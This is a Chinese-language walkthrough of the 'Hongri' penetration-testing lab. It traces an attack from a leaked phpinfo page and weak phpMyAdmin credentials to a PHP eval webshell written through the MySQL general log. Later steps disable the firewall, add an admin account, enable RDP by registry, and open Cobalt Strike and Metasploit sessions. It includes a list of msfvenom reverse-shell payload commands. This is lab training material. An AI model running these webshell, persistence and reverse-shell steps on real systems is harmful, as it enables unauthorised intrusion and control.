# 红日

## 靶场一：

## 配置

```
Kali：
eth0: 192.168.195.128

Win7（模拟外网administrator）
eth0: 192.168.195.129
eht1: 192.168.52.128

Win2003（域成员administrator）
eth0: 192.168.52.141

Win2008（域控liukaifeng01）
eth0: 192.168.52.138
```

```
域控管理下面的域成员，3/7/8三个在一个网段，其中52为内网，7中包含了两个网卡一个作为外网，一个作为内网，外网可以被探测是联网了的，内网不可以直接扫，所以win7相当于是一个目标机，我们是攻击机，然后打到win7再打域成员最后是域控
```

### web渗透：

#### 第一种思路：

1.先进行一波信息收集，先进行**端口扫描**注意需要现在win7主机运行PhpStudy）

sS表示是tcp syn扫描（用于内网穿透）



发现80等多个端口开启，访问http://192.168.195.129发现页面如下，存在大量信息泄露，收集有效信息。



这个页面泄露了很多信息，服务器版本、php版本、绝对路径、管理员邮箱等。

2.发现无从下手可以先试试进行目录扫描


发现很多目录

试着手动验证一下不同的后缀以及大小不一样的目录（关注是否是404或者200）


测试到/phpinfo.php页面信息，里面包含重要信息

**disabled_functions禁用函数表示没有禁用的函数**（敏感信息泄露漏洞）

继续测试发现：



可以看到phpmyadmin的更新记录，说明上一个目录phpmyadmin存在

尝试访问：



成功访问。

然后我们测试扫描备份目录：




尝试访问备份文件：


访问成功，发现里面有一个备份目录，然后尝试在url中访问是否存在



也成功访问到



观察页面信息发现包含如此信息泄露，然后通过指引进入后台




进入后台，寻找最简单最容易利用的漏洞，文件上传，发现有上传图片和内容的点，无法利用



经过一番寻找又找到一个上传点，但是也无法进行利用

发现多个文件上传点都无法进行利用，都进行了限制，所以尝试别的方式

再次回过来看备份文件发现一个跟数据库关联的配置文件：



cms必然有一个配置文件，如果需要使用数据库，里面包含着与数据库建立联系的用户以及密码，所以翻阅得到数据库账户以及密码

链接数据库：


登录进入

根据之前的更新日志题型，所以可以进行对版本的漏洞查找，看是否有可以利用的漏洞或者自己进行测试

先进行自己测试，首先可以尝试看数据库是否有导入权限，能否导入木马

**利用语句：**

```
SHOW GLOBAL VARIABLES LIKE '%secure%'
```


没有导入权限，查看是否有开启全局日志



全局日志功能关闭，不过可以通过命令开启，并修改日志保存的绝对路径，这里的路径可以在探针页面获得。

探针页面得到路径位置：


```sql
SET GLOBAL general_log = ON;# 开启日志
SET GLOBAL general_log_file = 'C:/phpstudy/WWW/test.php';# 设置日志位置为网站目录
```



更改成功，接着向日志文件写shell

```sql
select '<?php eval ($_POST[s]);?>'
```



执行这条语句之后，日志会将select后的查询语句记录进日志，从而让日志变成一个一句话木马。

用蚁剑连接



连接成功。（拿到数据库权限）


**再回过头来测试yxcms平台发现：**

多次测试发现：

在前台模板里可以对php文件进行编辑




随便找一个php的文件进行修改：


然后根据之前下载的beifen文件看到修改的php文件的路径，再使用蚁剑进行测试连接：


成功连接到（拿到后台权限）

查看拿到的shell是什么权限：


拿到管理员权限

#### 第二种思路：

1.先进行一波信息收集，先进行**端口扫描**注意需要现在win7主机运行PhpStudy）

sS表示是tcp syn扫描（用于内网穿透）


发现80等多个端口开启，访问http://192.168.195.129发现页面如下，存在大量信息泄露，收集有效信息。


这个页面泄露了很多信息，服务器版本、php版本、绝对路径、管理员邮箱等。

或者可以在这里试试mysql是否存在弱口令

输入root root进行检测，发现可以连接数据库


因为页面是phpstudy搭建所以很有可能存在phpmyadmin后台

发现确实有，登录


然后我们直接来扫一下目录



确实存在phpmyadmin，还扫到了一个备份文件，打开发现是yxcms的网站源码，应该部署着这个CMS 。




使用弱口令登进去phpmyadmin，查看数据库是否有导入权限，看能否导入木马

```sql
SHOW GLOBAL VARIABLES LIKE '%secure%'
```


没有导入权限，查看是否有开启全局日志


全局日志功能关闭，不过可以通过命令开启，并修改日志保存的绝对路径，这里的路径可以在探针页面获得。

探针页面得到路径位置：


```sql
SET GLOBAL general_log = ON;# 开启日志
SET GLOBAL general_log_file = 'C:/phpstudy/WWW/test.php';# 设置日志位置为网站目录
```


更改成功，接着向日志文件写shell

```sql
select '<?php eval ($_POST[s]);?>'
```


执行这条语句之后，日志会将select后的查询语句记录进日志，从而让日志变成一个一句话木马。

用蚁剑连接


连接成功。（拿到数据库权限）

我们再来看下部署的CMS，打开网站


通过提示登录后台：


多次测试发现：

在前台模板里可以对php文件进行编辑


随便找一个php的文件进行修改：


然后根据之前下载的beifen文件看到修改的php文件的路径，再使用蚁剑进行测试连接：


成功连接到（拿到后台权限）

查看拿到的shell是什么权限：


拿到管理员权限

### 内网渗透：

首先**关闭防火墙**（mstsc）

cmd命令提示：

```
net stop mpssvc 关闭防火墙

net start mpssvc 开启防火墙
```

或者使用cmd调用powershell再输入命令关闭

#### 1.远程登录

尝试添加一个用户，并将其更改为管理员权限





用户添加成功（因为管理员用户默认打开了远程桌面连接，所以添加至管理员组）

打开3389

命令提示：

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f 
```



尝试远程登录：

登陆成功



#### 2.cs上线



设置监听：



生成一个EXE后门



通过蚁剑上传并执行




成功上线。执行sleep 0，不然回显会很慢

```
sleep 0则表示进入交互模式，任何输入的命令都会被立即执行。
```


shell systeminfo 查看系统信息

#### 3.msf上线

先用kali选择目标机对应的操作系统的木马

```
Linux

linux/x86/meterpreter/reverse_tcp操作系统对应的插件
lhost代表攻击机的本地ip lport攻击机的监听端口（一般就是本机）

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f elf > shell.elf

Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f exe > shell.exe

PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.php

ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f asp > shell.asp

JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.jsp

Python

msfvenom -p cmd/unix/reverse_python LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.py

Bash

msfvenom -p cmd/unix/reverse_bash LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.sh

Perl

msfvenom -p cmd/unix/reverse_perl LHOST=< Your IP> LPORT=< Your Port> -f raw > shell.pl

```


再进入msf的主程序开启监听端口



成功进入



use选择插件    利用多线程监听器


show所有监听器的类型

插件类型要与刚才生成的木马一致



这里也可以set payload 365





成功开启端口

用win7模拟目标机运行exe后


上线成功

## 内网信息搜集

